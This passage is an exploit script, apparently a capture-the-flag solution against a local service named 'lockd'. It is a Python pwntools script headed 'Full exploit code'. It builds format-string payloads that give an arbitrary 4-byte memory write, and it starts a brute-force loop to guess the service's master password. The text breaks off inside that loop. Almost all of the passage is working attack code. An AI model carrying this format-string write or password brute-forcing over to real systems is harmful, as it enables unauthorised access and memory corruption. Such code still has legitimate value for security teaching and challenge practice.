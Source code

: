 ### Full exploit code

```python
import binascii

from pwn import *


context.log_level = 'WARNING'
context.arch = 'x86_64'

binary = 'lockd'
e = ELF(binary)

HOST, PORT = '127.0.0.1 8107'.split(' ')

class Lockd:
    def __init__(self, host, port, password=None, debug=False):
        self.p = remote(host, port)
        self.password = password

        self.p.sendlineafter(b'Input floor > ', b'1')
        self.p.sendlineafter(b'Room number > ', b'1')
        if password:
            self.p.sendafter(b'Input master key > ', self.password)
        if debug:
            pid = subprocess.check_output(f"docker top {binary} -eo pid,comm | grep {binary} | awk '{{print $1}}'", shell=True).decode().strip().split()[-1]
            gdb.attach(int(pid), GDB_SCRIPT, exe=binary)
            pause()

    def lock(self, name: bytes):
        self.p.sendlineafter(b'> ', b'1')
        self.p.sendafter(b'Input master key > ', self.password)
        self.p.sendafter(b'Your name > ', name)

    def arbitrary_write_4_bytes(self, addr, value):
        """arbitrary write 4 bytes"""
        payload1 = f'%{addr-0xc}c%9$n'
        payload1 = payload1.encode()
        self.lock(payload1)

        payload2 = f'%{value-0xc}c%21$n'
        payload2 = payload2.encode()
        self.lock(payload2)

    def check(self):
        self.p.sendlineafter(b'> ', b'1')
        self.p.sendafter(b'Input master key > ', self.password)
        self.interactive()

    def interactive(self):
        self.p.interactive()

    def __del__(self):
        self.p.close()

def brute_force_passwd():
    # 1. brute force password
    known = b''
    for i in range(0, 0x10):
        for candidate in range(0x100):
            lockd = Lockd(HOST, PORT)
```